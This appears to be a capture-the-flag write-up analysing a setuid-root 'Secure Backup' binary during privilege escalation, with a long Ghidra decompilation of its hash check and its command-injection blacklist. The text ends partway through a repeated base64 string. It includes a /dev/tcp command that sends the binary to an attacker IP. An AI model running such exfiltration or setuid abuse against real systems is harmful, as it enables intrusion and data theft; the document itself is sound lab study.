



# 35 - Setuid Backup
# Linpeas.sh

```
# [+] Backup files (limited 100)                          
-rwsr-xr-- 1 root admin 16484 Sep  3  2017 /usr/local/bin/backup
```
This file is executable by group *admin* and the user *tom* is in admin group.


# Hunting hardcoded strings in the backup executable

```bash
$ strings /usr/local/bin/backup
```



After decoding *Encoded backup* string, we find out that we got trolled by **Secure(?) Backup** program.




# Let's move this file to our box and try to decompile it on ghidra

```bash
tom@node:/usr/local/bin$ cat ./backup  > /dev/tcp/10.10.14.8/9001
```


# ltrace ./backup



It opens /etc/myplace/keys and  compares them with arg2


# Backup decompilation on ghidra, after doing some reverse engineering this is the final result.


```c
undefined4 main(int argc,char **argv)

{
  char cVar1;
  __uid_t __uid;
  size_t sVar2;
  int hash_check;
  char *pcVar3;
  __pid_t pid;
  time_t time;
  clock_t clock;
  uint clock_time_pid_mixed;
  byte bVar4;
  char cmd [1500];
  char temporary_file [1000];
  char file_to_backup [500];
  char filehash [1000];
  char file [100];
  undefined2 local_b5;
  undefined local_b3;
  undefined2 local_b2;
  undefined local_b0;
  char local_af [3];
  undefined2 local_ac;
  undefined local_aa;
  undefined2 local_a9;
  undefined local_a7;
  undefined2 local_a6;
  undefined local_a4;
  char local_a3 [3];
  undefined2 local_a0;
  undefined local_9e;
  undefined2 local_9d;
  undefined2 local_9a;
  char myhash [100];
  int local_34;
  FILE *stream;
  int local_2c;
  int local_28;
  int local_24;
  int *argc_pointer;
  
  bVar4 = 0;
  argc_pointer = &argc;
  __uid = geteuid();
  setuid(__uid);
  local_24 = 0;
  local_28 = 0;
    // checking if the program received at least 4 arguments "-q"  "hash" and "filename" program itself also counts as an argument
  if (argc < 4) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
    // -q is the quiet flag
  hash_check = strcmp(argv[1],"-q");
  if (hash_check != 0) {
    local_28 = 1;
    puts("\n\n\n             ____________________________________________________");
    puts("            /                                                    \\");
    puts("           |    _____________________________________________     |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |             Secure Backup v1.0              |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |                                             |    |");
    puts("           |   |_____________________________________________|    |");
    puts("           |                                                      |");
    puts("            \\_____________________________________________________/");
    puts("                   \\_______________________________________/");
    puts("                _______________________________________________");
    puts("             _-\'    .-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.  --- `-_");
    puts("          _-\'.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.--.  .-.-.`-_");
    puts("       _-\'.-.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-`__`. .-.-.-.`-_");
    puts("    _-\'.-.-.-.-. .-----.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-----. .-.-.-.-.`-_");
    puts(" _-\'.-.-.-.-.-. .---.-. .-----------------------------. .-.---. .---.-.-.-.`-_");
    puts(":-----------------------------------------------------------------------------:");
    puts("`---._.-----------------------------------------------------------------._.---\'\n\n");
  }
    // here it will check the hash we provide against the hashes in /etc/myplace/keys, the program will exit if our hash doesn't match any hashes in keys file. clock_time_pid_mixed is a dummy variable in these lines of code
  strncpy(myhash,argv[2],100);
  local_9a = '/';
  local_b5 = 25903;
  local_b3 = 0;
  local_b2 = 25460;
  local_b0 = 0;
  strcpy(&local_b0 + 1,(char *)&local_9a);
  clock_time_pid_mixed = 0xffffffff;
  pcVar3 = &local_b0 + 1;
  do {
    if (clock_time_pid_mixed == 0) break;
    clock_time_pid_mixed = clock_time_pid_mixed - 1;
    cVar1 = *pcVar3;
    pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(undefined2 *)(&local_b0 + ~clock_time_pid_mixed) = 'm';
  local_ac = 28793;
  local_aa = 0;
  local_a9 = 24940;
  local_a7 = 0;
  local_a6 = 25955;
  local_a4 = 0;
  strcpy(&local_a4 + 1,(char *)&local_9a);
  clock_time_pid_mixed = 0xffffffff;
  pcVar3 = &local_a4 + 1;
  do {
    if (clock_time_pid_mixed == 0) break;
    clock_time_pid_mixed = clock_time_pid_mixed - 1;
    cVar1 = *pcVar3;
    pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(undefined2 *)(&local_a4 + ~clock_time_pid_mixed) = 'k';
  local_a0 = 31077;
  local_9e = 0;
  local_9d = 0x73;
  strcpy(file,(char *)&local_b5);
  local_2c = 1;
  while (local_2c < 9) {
    strcat(file,(char *)((int)&local_b5 + local_2c * 3));
    local_2c = local_2c + 1;
  }
  stream = fopen(file,"r");
  if (stream == (FILE *)0x0) {
    if (local_28 == 1) {
      displayWarning("Could not open file\n\n");
    }
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    pcVar3 = fgets(filehash,1000,stream);
    if (pcVar3 == (char *)0x0) break;
    sVar2 = strcspn(filehash,"\n");
    filehash[sVar2] = '\0';
    hash_check = strcmp(myhash,filehash);
    if ((hash_check == 0) && (local_24 = 1, local_28 == 1)) {
      displaySuccess("Validated access token");
    }
  }
  if (local_24 != 1) {
    if (local_28 == 1) {
      displayWarning("Ah-ah-ah! You didn\'t say the magic word!\n\n");
    }
                    /* WARNING: Subroutine does not return */
    exit(1);
  }

    // bad character and bad file check,this check here is for preventing code substitution, file inclusion and so on, text here is the troll ascii
  pcVar3 = strstr(argv[3],"..");
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar3 = strstr(argv[3],"/root");
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar3 = strchr(argv[3],';');
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar3 = strchr(argv[3],'&');
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar3 = strchr(argv[3],'`');
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar3 = strchr(argv[3],'$');
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar3 = strchr(argv[3],'|');
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFL